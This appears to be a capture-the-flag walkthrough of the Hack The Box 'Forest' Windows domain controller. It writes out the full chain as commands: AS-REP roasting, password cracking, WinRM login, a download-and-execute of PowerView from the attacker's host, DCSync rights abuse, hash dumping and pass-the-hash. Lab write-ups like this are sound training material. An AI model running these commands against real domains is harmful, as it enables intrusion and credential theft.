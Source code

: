 # Forest (Windows)

## Enumeration

### Nmap
I began my enumeration with an aggressive nmap scan because some boxes take some time to scan.
```
nmap -p- -Pn -T4 10.10.10.161 --min-rate=5000

-p- to scan all ports
-Pn for a no ping scan (scans open ports only)
-T4 for an aggressive (3 is default) timing; can give unreliable results, but is faster than the default
--min-rate=5000 for a min rate of 5000 packets per second; can also give unreliable results if it's too fast
```
![nmap1](Images/nmap1.png)

Then, I do a default NSE script scan with version detection on the ports.
```
nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 -Pn -T4 10.10.10.161 --min-rate=5000

-sC for default NSE script
-sV for version detection
```
![nmap2](Images/nmap2.png)

### Enum4linux
I then use enum4linux to get a Windows enumeration on my Linux machine.
```
enum4linux 10.10.10.161
```
![enum4linux](Images/enum4linux.png)
I get a bunch of users on the machine.

### Ldapsearch
Then I use ldapsearch to search the LDAP directory server to get the domain name.
```
ldapsearch -H ldap://10.10.10.161 -x -s base namingcontexts

-H for the target host / LDAP server
-x for simple authentication (instead of SASL)
-s for scope (here, it is `base`)
namingcontexts to request for namingContexts
```
![ldapsearch](Images/ldapsearch.png)

I find the domain name htb.local (DC=htb,DC=local)

### AS-REP Roast
I start by using impacket's GetNPUsers to check for all domain users
```
impacket-GetNPUsers -dc-ip 10.10.10.161 -request 'htb.local/'

-dc-ip for the domain controller ip
-request to request TGT for users
'htb.local/' to request from the htb.local domain
```
![getnpusers](Images/getnpusers.png)

^ I then saved the above results to a file named svc-afresco.hash.

## Initial Foothold
### Hashcat
```
┌──(kali㉿kali)-[~/Desktop/htb/machines/forest]
└─$ hashcat -h | grep -i "kerberos"                                                              
  19600 | Kerberos 5, etype 17, TGS-REP                              | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                             | Network Protocol
  28800 | Kerberos 5, etype 17, DB                                   | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                              | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                             | Network Protocol
  28900 | Kerberos 5, etype 18, DB                                   | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth                      | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol

-h for help (lists all the modes

grep for searching for a specific word
-i to ignore case and search for the word "kerberos"
```
AS-REP is 18200, so I then use hashcat to crack the password for svc-alfresco.
```
hashcat -m 18200 svc-alfresco.hash /usr/share/wordlists/rockyou.txt

-m for mode 18200 (AS-REP)
svc-alfresco.hash to use the hash file that I saved earlier
rockyou.txt as a default wordlist to use for hashcat
```
![hashcat](Images/hashcat.png)
I get the password s3rvice for the user svc-alfresco.

### Evil-WinRM
During the nmap scan, I see that port 5985 (wsman) and 47001 (winrm) are open.
I use evil-winrm to log into the machine as user svc-alfresco with the password s3rvice.
```
┌──(kali㉿kali)-[~/Desktop/htb/machines/forest]
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

-i ip
-u user
-p password
```
Now that I"m in the machine, I can just use `cat` to read the contents of the user.txt file.
```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop cat user.txt
820aabe21740a9c9aac625ca2822e534
```

## Privilege Escalation
*Skipped uploading Bloodhound here*  
![paths](Images/paths.png)
Bloodhound shows that here's 2 jumps needed to get from svc.alfresco to Administrator.  
Svc.alfresco is a member of Service Accounts, which is a member of Privileged IT Accounts, which is a member of Account Operators.  
AKA svc.alfresco is a member of Account Operators.  
The Account Operators has a Generic All permissions on the Exchange Windows Permissions group. Right-clicking that and selecting `help` shows Abuse Info.

![abuseinfo](Images/abuseinfo.png)  
The Abuse Info shows me exactly what command(s) to use.

Add svc-alfresco to the Exchange Windows Permissions group.
```
*Evil-WinRM* PS C:\users\svc-alfresco\desktop> net group "Exchange Windows Permissions" svc-alfresco /add /domain
```

Import PowerView and obtain DCSync permission on svc-alfresco.
```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> (New-Object System.Net.WebClient).DownloadString('http://10.10.14.89/PowerView.ps1') | IEX
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> $SecPass = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', $SecPass)
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> Add-ObjectACL -PrincipalIdentity marvel -Credential $Cred -Rights DCSync
```

### Secretsdump
I then use secretsdump to dump the administrator hash.
```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```
![secretsdump](Images/secretsdump.png)

### Impacket-psexec
I use impacket's psexec to log into the machine as the administrator, using the hash found in the previous step.
```
┌──(kali㉿kali)-[~/Desktop/htb/machines/forest]
└─$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161

-hashes for using a hash on the administrator user instead of a password
```

Finally, I `dir` to list the files in the directory and `type` to read the root.txt file.
```
C:\users\administrator\desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 61F2-A88F

 Directory of C:\users\administrator\desktop

09/23/2019  01:15 PM    <DIR>          .
09/23/2019  01:15 PM    <DIR>          ..
12/01/2023  02:01 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)  10,436,100,096 bytes free

C:\users\administrator\desktop>type root.txt
9a782c7840130cbb08a78b9cdb607171
```
